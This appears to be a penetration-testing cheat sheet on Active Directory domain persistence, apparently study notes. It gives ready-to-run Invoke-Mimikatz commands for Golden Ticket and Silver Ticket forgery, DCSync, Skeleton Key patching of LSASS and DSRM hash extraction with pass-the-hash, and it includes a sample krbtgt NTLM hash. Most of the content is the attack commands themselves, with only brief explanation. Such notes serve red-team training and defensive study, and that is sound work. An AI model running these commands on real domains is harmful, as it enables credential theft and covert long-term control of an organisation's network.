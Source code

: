 **Golden Ticket:**
Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
```Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>```

Once we get the hash of krbtgt account, we can generate our own TGT using:
```Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'```

> Found the following creds of krbtgt:
RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : ff46a9d8bd66c6efd77603da26796f35

To see currently stored tickets:
``` klist```


**DCSync**
```Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'```
Example: ```Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'```



**Silver Ticket:**
Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

```Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'```


**Skeleton Key:**
Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

```Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>```

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.



**DSRM(Directory Service Restore Mode):**
When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin privs are required
```Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>```

After obtaining the DSRM hash:

```Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'```



